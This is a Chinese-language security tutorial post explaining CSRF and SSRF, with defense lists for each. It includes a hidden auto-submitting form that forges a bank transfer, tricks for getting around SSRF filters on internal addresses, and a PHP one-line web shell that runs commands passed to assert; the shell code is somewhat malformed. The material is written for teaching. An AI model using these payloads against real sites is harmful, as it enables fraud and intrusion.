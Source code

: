```yaml
---
published: true
layout: post
tags: web安全
categories: document
description: CSRF与SSRF原理
---
```

## Csrf跨站请求伪造
   Csrf利用受害者尚未失效的身份认证信息（cookie、会话等），诱骗其点击恶意链接或者访问包含攻击代码的页面，在受害人不知情的情况下以受害者的身份向（身份认证信息所对应的）服务器发送请求，从而完成非法操作（如转账、改密等）。CSRF与XSS最大的区别就在于，CSRF并没有盗取cookie而是直接利用。   

CSRF攻击攻击原理及过程如下：  
       1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A;    
       2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A;   
       3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B;    
       4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A;  
       5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。     

例如访问的恶意web页面为：


	<img src="恶意链接地址" border="0" style="display:none;"/> 


	<h1>404<h1> 


	<h2>file not found.<h2> 
    

若网站使用post发送请求，那么攻击方可以修改页面为：

      <html> 
        <head> 
          <script type="text/javascript"> 
            function steal() 
            { 
                     iframe = document.frames["steal"]; 
                     iframe.document.Submit("transfer"); 
            } 
          </script> 
        </head> 

        <body onload="steal()"> 
          <iframe name="steal" display="none"> 
            <form method="POST" name="transfer"　action="http://www.myBank.com/Transfer.php"> 
              <input type="hidden" name="toBankId" value="11"> 
              <input type="hidden" name="money" value="1000"> 
            </form> 
          </iframe> 
        </body> 
      </html> 


csrf防御策略:  
1.验证 HTTP Referer 字段  
    根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。如果黑客要对银行网站实施 CSRF 攻击，他只能在他自己的网站构造请求，当用户通过黑客的网站发送请求到银行时，该请求的 Referer 是指向黑客自己的网站。因此，要防御 CSRF 攻击，银行网站只需要对于每一个转账请求验证其 Referer 值，如果是以 bank.example 开头的域名，则说明该请求是来自银行网站自己的请求，是合法的。如果 Referer 是其他网站的话，则有可能是黑客的 CSRF 攻击，拒绝该请求。  
2.在请求地址中添加 token 并验证  
 	CSRF 攻击之所以能够成功，是因为黑客可以完全伪造用户的请求，该请求中所有的用户验证信息都是存在于 cookie 中，因此黑客可以在不知道这些验证信息的情况下直接利用用户自己的 cookie 来通过安全验证。要抵御 CSRF，关键在于在请求中放入黑客所不能伪造的信息，并且该信息不存在于 cookie 之中。可以在 HTTP 请求中以参数的形式加入一个随机产生的 token，并在服务器端建立一个拦截器来验证这个 token，如果请求中没有 token 或者 token 内容不正确，则认为可能是 CSRF 攻击而拒绝该请求。  
3.设置跨域权限    	
4.提交验证码      
	在表单中添加一个随机的数字或字母验证码。通过强制用户和应用进行交互。来有效地遏制CSRF攻击。

## SSRF服务端请求伪造
  SSRF攻击的目标是从外网无法访问的内部系统。（正是因为它是由服务端发起的，所以它能够请求到与它相连而与外网隔离的内部系统）应用需要调用其他服务器的资源，需要传入一个目标服务器地址去请求，但是没有对目标地址做过滤与限制，导致攻击者可借助服务端实现访问其本无权访问的URL。攻击者无权访问的URL主要是内网，而对于不是Web服务的其他端口反回的一般是端口对应的服务的banner信息，所以SSRF的一大利用是探测内网端口开放信息。  

ssrf出现在：  
1.通过url分享网页内容   
2.转码服务   
3.在线翻译   
4.图片的加载与下载   
5.在url关键字寻找：share,wap,url,link,src,sourse,target,u,3g,display,sourceURl,imgurl   

例如：  
www.xxx.com/a.php?image=http://www.abc.com/1.jpg  
如果我们将http://www.abc.com/1.jpg换为与该服务器相连的内网服务器地址会产生什么效果呢？  
如果存在该内网地址就会返回1xx 2xx 之类的状态码，不存在就会其他的状态码  

当访问的内网地址http://127.0.0.1/ 被过滤的时候，可以尝试一下几种方式:        
1.@  
http://abc@127.0.0.1  
2.添加端口号    
http://127.0.0.1:8080    
3.短地址  
http://dwz.cn/11SMa  
4.ip地址转换成进制来访问  
115.239.210.26 = 16373751032   

 外网利用过程：   
1.在b站上传一句话木马  

    <?php 
    $s=$_POST[‘url’] 
    $s=file_get_contents($s) 
    $s($_POST[‘cmd’]); 
    > 

2.在a站保存一个txt文件，内容为 assert  
3.访问b站的木马，上传url=a站ip的txt文件将assert读取，脚本解释器将它解释为assert函数，&cmd={phpinfo();可以继续添加命令system("ipconfig")} 让assert执行cmd实现获取php信息的木马执行。（//这就是利用服务端远程文件读取）

ssrf防御策略：    
1.过滤放回信息，验证远程服务器对请求的响应是比较容易的方法。如果web应用是去获取某一种类型的文件。那么在把返回结果展示给用户之前先验证返回的信息是否符合标准。  
2.统一错误信息，避免用户可以根据错误信息来判断远程服务器的端口状态。  
3.限制请求的端口为http常用的端口，比如，80,443,8080,8090。  
4.黑名单内网IP。避免应用被用来获取内网数据，攻击内网。  
5.禁用不需要的协议。仅仅允许http和https请求。
